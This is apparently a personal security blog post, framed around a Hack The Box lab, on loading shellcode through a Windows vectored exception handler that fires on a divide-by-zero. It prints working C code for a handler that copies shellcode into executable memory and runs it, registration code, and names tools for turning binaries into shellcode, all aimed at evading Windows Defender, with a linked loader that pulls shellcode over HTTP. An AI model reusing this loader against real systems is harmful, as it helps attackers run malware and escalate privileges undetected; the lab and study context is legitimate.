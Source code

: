 ```yaml
---
title: 1/0 = reverse shell ??
description: Deep dive into a unique shellcode loading technique
date: 2025-01-10 12:00:00 +0000
categories: [Windows,Programming]
tags: [Windows,Shellcode]
image: assets/img/visual_studio.png
---
```


In this blog post I'll explain how to load your shellcode using a really neat technique abusing VectorExceptions, a windows way of catching exceptions.

## Context
For the past few weeks I've been trying to finish my first htb fortress.
After gaining access to a windows machine, which had SeImpersonate so it was a quick win, I tried to use godpotato.exe to escalate.
And then everything to shambles. I spent a lot of time trying to get godpotato on the box and it kept getting deleted by windows defender.
Commonly used techniques to bypass AV include converting your exe to raw assembly (the shellcode) and running it through another binary (the loader).
Since I don't have the skills to create a shellcode from a binary, I used [donut](https://github.com/TheWover/donut) which works great for now !
Now I only had to create my shellcode loader :)

## VirtualAlloc ?
I decided that I wanted to create my own shellcode loader, which I did using visual studio 2022. I first used VirtualAlloc like absolutely every shellcode loader does on this planet. It's really straightforward, all you do is create executable memory, put your shellcode inside, and jump to it. I wanted to get more creative so I searched for more unique ways and I found a really funny one, vector excpetions. What I mean by funny is that the code that triggers the shellcode is the following :

```c
int a = 1;
int b = 0;
int result = a / b;
```

Yes, it's the actual code in my shellcode loader ^^.
I know I know it sounds confusing at first, but don't worry it will all come together.
When your program reaches this, it will raise an exception and will iterate through a list of "vectored exception handlers", which is a fancy word for functions that will be called, one after the other before one of them can solve the exception. All we need to do is create an ExceptionHandler and register it so it will be called when an error occurs. I could go on and explain step by step but this snippet will explain it better than I :

```c
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo) {
	// Check if it's a divide by zero exception
	if (pExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_INT_DIVIDE_BY_ZERO) {
		printf("[+] Exception caught, running shellcode ...\n");
		// Just in case
		if (g_shellcode == NULL || g_shellcodeSize == 0) {
			printf("[X] Shellcode error :(\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		// VirtualAlloc shellcode as usual
		void* execMem = VirtualAlloc(NULL, g_shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		if (execMem == NULL) {
			printf("[X] VirtualAlloc error (huh ?)\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		memcpy(execMem, g_shellcode, g_shellcodeSize);
		((void(*)())execMem)();  // Telephone meeeee

		VirtualFree(execMem, 0, MEM_RELEASE);

		return EXCEPTION_EXECUTE_HANDLER;  // Not make an infinite loop
	}
	// Not my fault
	return EXCEPTION_CONTINUE_SEARCH;
}
```

As you can see, this will trigger only if an int divide by zero exception is raised.
I could've done this with other types of exceptions but triggering a shellcode when dividing by zero was just better ^^.

If you paid attention you realise that we need to register our ExceptionHandler, which is done like this :

```c
if (AddVectoredExceptionHandler(1, ExceptionHandler) == NULL) {
	printf("[X] Couldn't add an Exception Handler sadly\n");
	return;
}
```

Reading the [docs](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-addvectoredexceptionhandler), we see that the first argument just needs to be non zero so that our ExceptionHandler will be called first.

## Done :)
Then you can just run the code and it will trigger you shellcode ! 
This technique is still recent, and I need to give credit to [this blog post](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/) for explaining the inner workings of windows Exceptions.

It gave me motivation to code my own shellcode loader, which you can checkout [here](https://github.com/0xtensho/ExtremeShellcode). 
It's useful for ctf's as it gets the shellcode through http before executing it, allowing you to upload only the loader. 
There are tons of other ways to run a shellcode, but of course the best way is the way that is still unknown by windows defender.
